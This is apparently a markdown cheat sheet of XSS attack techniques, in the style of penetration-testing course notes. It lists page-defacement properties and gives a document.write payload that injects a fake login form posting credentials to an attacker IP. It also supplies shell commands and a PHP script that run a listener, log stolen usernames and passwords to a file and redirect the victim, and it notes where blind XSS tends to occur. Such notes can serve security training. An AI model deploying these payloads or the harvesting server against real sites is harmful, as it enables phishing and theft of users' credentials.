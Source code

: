 #### Defacing Elements

- Background Color `document.body.style.background`
- Background `document.body.background`
- Page Title `document.title`
- Page Text `DOM.innerHTML`

#### Phishing
##### Login From Injection
```js
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
##### Cleaning Up
If there are Elements we won't have on the webpage anymore, we can remove them with the following code:

```js
document.getElementById('urlform').remove();
```

##### Credential Stealing

```shell
$ mkdir /tmp/tmpserver
$ cd /tmp/tmpserver
$ vi index.php #at this step we wrote our index.php file
$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

#### Session Hijacking
##### Blind XSS Detection

A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to.

Can be found at:
  - Contact Forms
  - Reviews
  - User Details
  - Support Tickets
  - HTTP User-Agent header
